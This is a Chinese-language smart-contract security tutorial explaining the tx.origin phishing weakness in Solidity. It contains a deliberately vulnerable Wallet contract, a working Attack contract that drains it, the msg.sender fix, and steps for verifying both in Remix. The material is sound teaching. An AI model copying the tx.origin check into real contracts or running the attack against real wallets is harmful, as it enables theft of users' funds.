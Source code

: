 # Phishing with tx.origin
## msg.sender和tx.origin有什么区别？
如果合约A调用B，B调用C，在C中msg.sender是B，tx.origin是A。

## 漏洞
恶意合约可以欺骗合约所有者调用只有所有者才能调用的函数。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
Wallet是一个简单的合约，只有所有者才能将以太币转移到另一个地址。
Wallet.transfer()使用tx.origin来检查调用者是否为所有者。
让我们看看如何攻击这个合约。
*/

/*
1. Alice部署Wallet并存入10个以太币
2. Eve部署Attack并传入Alice的Wallet合约地址
3. Eve欺骗Alice调用Attack.attack()
4. Eve成功从Alice的钱包中窃取了以太币

发生了什么？
Alice被欺骗调用Attack.attack()。在Attack.attack()内部，它请求将Alice钱包中的所有资金转移到Eve的地址。
由于Wallet.transfer()中的tx.origin等于Alice的地址，它授权了转移。钱包将所有以太币转移到了Eve。
*/

contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```
### 预防技术
使用msg.sender代替tx.origin

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{ value: _amount }("");
  require(sent, "Failed to send Ether");
}
```

## remix验证
1.部署Wallet合约并转入10 eth
![73-1.png](img/73-1.png)
2.部署attack合约传入Wallet合约地址为参数，调用attack合约，可以看到，盗取了eth
![73-2.png](img/73-2.png)
3.尝试使用msg.sender代替tx.origin，同样的方式用attack合约攻击，验证可看到攻击失败
![73-3.png](img/73-3.png)